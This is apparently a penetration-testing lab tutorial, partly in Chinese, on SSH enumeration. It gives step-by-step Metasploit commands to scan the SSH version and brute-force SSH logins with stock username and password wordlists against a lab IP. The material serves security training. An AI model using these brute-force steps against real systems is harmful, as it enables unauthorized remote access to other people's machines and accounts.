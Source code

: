 我们可以利用辅助模块来枚举在目标上运行的 SSH 版本，并执行暴力攻击来识别密码，从而为我们提供对目标的远程访问。

The version information is very important during the vulnerability scanning section. So again, if you're a bit confused as to why we're getting the version, all of this will come into context when we start using the version information to find inherent vulnerabilities in the services.

Given that SSH is a remote administration protocol, if we are able to get any credentials, then that means we can establish a direct communication channel with the target and consequently get remote access to the target.

# Demo: SSH Enumeration（演示：SSH 枚举）

```
ifconfig
eth1: 192.30.120.2
```

```
service postgresql start
msfconsole -q
```

Create a workspace.

```
workspace -a SSH_Enum
```

Set up global variables for RHOSTS.

```
setg RHOSTS 192.30.120.3
setg RHOST 192.30.120.3
```

Let's get started with SSH enumeration.

```
search type:auxiliary name:ssh
```

```
use auxiliary/scanner/ssh/ssh_version
show options
run
search openssh
```

If the target has been configured to use a public or a key-pair authentication, then we would use `auxiliary/scanner/ssh/ssh_login_pubkey` module.

In this case, the target is configured to use password authentication, so we'll use the `auxiliary/scanner/ssh/ssh_login` module.

```
use auxiliary/scanner/ssh/ssh_login
show options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
run
```
